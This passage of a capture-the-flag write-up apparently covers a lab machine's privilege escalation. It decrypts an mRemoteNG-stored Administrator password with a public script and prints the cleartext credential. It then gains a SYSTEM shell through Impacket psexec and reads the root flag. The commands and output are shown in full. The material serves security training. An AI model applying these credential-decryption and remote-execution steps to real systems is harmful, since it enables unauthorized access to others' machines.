 In the first line of "confCons.xml",there is a password for Administrator which is encrypted by mRemoteNG.
{% highlight shell %}
aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
{% endhighlight %}

By googling, we can find a <a href="https://github.com/haseebT/mRemoteNG-Decrypt">script</a> to decript this base64 encoded password.
{% highlight shell %}
root@kali:~# git clone https://github.com/haseebT/mRemoteNG-Decrypt

root@kali:~# python3 mRemoteNG-Decrypt/mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
{% endhighlight %}

Now we got following credential for user Administrator.
{% highlight shell %}
Administrator:thXLHM96BeKL0ER2
{% endhighlight %}

To get inside as a Admin, we can use "psexec.py" in the package "Impacket".<br>
(We can also ssh to login)
{% highlight shell %}
root@kali:~# /usr/share/doc/python-impacket/examples/psexec.py administrator@10.10.10.134
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.134.....
[*] Found writable share ADMIN$
[*] Uploading file zdypCBbR.exe
[*] Opening SVCManager on 10.10.10.134.....
[*] Creating service dHza on 10.10.10.134.....
[*] Starting service dHza.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
{% endhighiglight %}

root.txt is in the directory "C:\Users\Administrator\Desktop".
{% highlight shell %}
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 0CB3-C487

 Directory of C:\Users\Administrator\Desktop

23-02-2019  10:40    <DIR>          .
23-02-2019  10:40    <DIR>          ..
23-02-2019  10:07                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  11.305.578.496 bytes free

C:\Users\Administrator\Desktop>type root.txt
958850b91811676ed6620a9c430e65c8
{% endhighlight %}
